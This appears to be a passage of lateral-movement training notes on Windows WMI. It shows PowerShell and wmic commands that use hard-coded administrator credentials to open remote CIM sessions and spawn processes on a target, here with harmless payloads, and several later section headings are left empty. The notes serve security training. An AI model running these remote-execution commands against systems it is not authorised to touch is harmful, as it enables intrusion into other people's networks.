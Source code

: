 * Create a PSCredential object to connect to WMI using PowerShell commands:

$username = 'administrator';

$password = 'Mypass123';

$securepassword = convertto-securestring $password -asplaintext -force;

$credential = new-object system.management.automation.pscredential $username, $securePassword;

* Establish a WMI session using either the DCOM or Wsman protocols.
  * **DCOM** - RPC over IP for connecting to WMI.
    * Uses TCP/135 and TCP/49152-65535.
  * **Wsman** - WinRM used for connecting to WMI.
    * Uses TCP/5985 (WinRM HTTP) or TCP/5986 (WinRM HTTPS).
* Establish a WMI session from PowerShell:

$opt = new-cimsessionoption -protocol DCOM

$session = new-cimsession -computerName \<target> -credential $credential -sessionoption $opt -erroraction stop

*
  * New-CimSessionOption cmdlet is used to configure connection options for the WMI session,
  * Options and credentials are passed to the New-CimSession cmdlet to establish a session.

### Remote Process Creation Using WMI <a href="#z4ip9qjbyevp" id="z4ip9qjbyevp"></a>

* Requires membership of the Administrators group.
* Uses port TCP/5985 (WinRM HTTP) or TCP/5986 (WinRM HTTPS).
* Uses ports TCP/135 and TCP/49152-65535 (DCE/RPC).
* Send a WMI request via PowerShell to the Win32\_Process class to spawn a process under an existing WMI session:

$command = “powershell.exe -command set-content -path c:\text.txt -value munrawashere”;

invoke-cimmethod -cimsession $session -classname win32\_process -methodname create -arguments @{

commandline = $command

}

* Send a WMI request via wmic to spawn a process:

wmic.exe /user:administrator /password:Mypass123 /node:\<target> process call create “cmd.exe /c calc.exe”

### Creating Services Remotely with WMI <a href="#xnr6xtlqvcb7" id="xnr6xtlqvcb7"></a>

### Creating Scheduled Tasks Remotely with WMI <a href="#pdmlbh8jd9eh" id="pdmlbh8jd9eh"></a>

### Installing MSI Packages Through WMI <a href="#vyvv3xhra7cp" id="vyvv3xhra7cp"></a>

### Use of Alternate Authentication Material <a href="#lm0zz6yuq442" id="lm0zz6yuq442"></a>

### Abusing User Behaviour <a href="#v2teotl61kx7" id="v2teotl61kx7"></a>

### Port Forwarding <a href="#ohvbh9mx9xw" id="ohvbh9mx9xw"></a>

### Conclusion <a href="#mrg4qfo6ul7g" id="mrg4qfo6ul7g"></a>
